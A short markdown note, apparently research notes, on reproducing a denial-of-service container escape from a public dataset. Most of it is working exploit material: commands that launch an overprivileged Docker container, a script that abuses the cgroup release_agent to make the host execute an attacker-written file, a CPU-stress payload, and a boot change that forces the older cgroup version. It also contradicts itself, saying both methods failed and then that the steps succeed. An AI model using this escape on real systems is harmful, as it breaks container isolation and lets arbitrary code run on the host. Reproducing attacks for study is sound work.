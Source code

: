 #  Resource exhaustion (DoS)

I attempted to replicate the following repository:
https://github.com/jpope8/container-escape-dataset/tree/main/containers

which has a guideline on how to reproduce a denial of service attack using an overprivileged docker container. There are the two following ways, both of which led to failure in reproducing the expected result:


### Ubuntu 21.10 or newer:

Due to switching from cgroup to cgroupv2 in these Ubuntu versions, this attack may not work as the memory cgroup does not exist anymore. As a workaround, we force Ubuntu to boot on cgroup instead by the following step:

Replace the following line in `/etc/default/grub`:
```
GRUB_CMDLINE_LINUX="systemd.unified_cgroup_hierarchy=0"
```

Now, following the steps regarding Ubuntu 21.04 or older will result in a successful attack.
### Ubuntu 21.04 or older:

By the instructions given in the repository, we run an overprivileged docker container from the latest ubuntu image with the command `bash`. For this, we run the following:

```
$ docker pull ubuntu
$ docker run --privileged --name=ESCAPE_DOS --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```
In the overprivileged container that we are currently running, we update apt, install vim, and create the following script:
**/escape.sh**
```
#!/bin/sh
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup_memory /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
cat stress.txt > /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
and the following payload:
**/stress.txt**
```
#!/bin/bash
stress() {
  (
    pids=""
    cpus=${1:-1}
    seconds=${2:-60}
    echo loading $cpus CPUs for $seconds seconds
    trap 'for p in $pids; do kill $p; done' 0
    for ((i=0;i<cpus;i++)); do while : ; do : ; done & pids="$pids $!"; done
    sleep $seconds
  )
}
stress 2 20
```

Before exiting the container, we commit it using a host command line, and then we may exit the container.

Afterwards, we run the container from one host terminal and then execute `escape.sh` in our overprivileged container using the following command in another host terminal:
- Terminal 1:
```
docker run --name=ESCAPE_DOS --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu_escape bash
```
- Terminal 2:
```
docker exec -it ESCAPE_DOS /escape.sh
```


#vuln_attempt_inprog
